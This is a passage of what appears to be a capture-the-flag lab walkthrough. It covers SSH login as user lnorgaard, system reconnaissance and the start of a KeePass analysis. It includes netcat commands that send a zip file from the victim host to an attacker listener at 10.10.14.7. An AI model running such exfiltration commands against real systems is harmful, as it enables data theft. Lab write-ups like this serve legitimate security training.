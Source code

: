 ### 3.1 SSH Access

We connect via SSH:

```bash
ssh lnorgaard@10.10.11.227
```

![[ssh_lnorgaard.png]]

🏁 **User flag obtained**.

---
## 4. Post-Exploitation

### 4.1 Gathering System Info

We check user and system details:

```bash
id
lsb_release -a
ls -l
```

![[ssh_lnorgaard_info.png]]

This is an Ubuntu Jammy system.

---
### 4.2 File Exfiltration via Netcat

We find `RT30000.zip` and exfiltrate it:

**Attacker:**
```bash
nc -nlvp 443 > file.zip
```

**Victim:**
```bash
nc 10.10.14.7 443 < RT30000.zip
```

![[download_zip_file.png]]

Verify integrity:

```bash
md5sum file.zip
```

![[zip_file_hash.png]]

---
### 4.3 KeePass Database Analysis
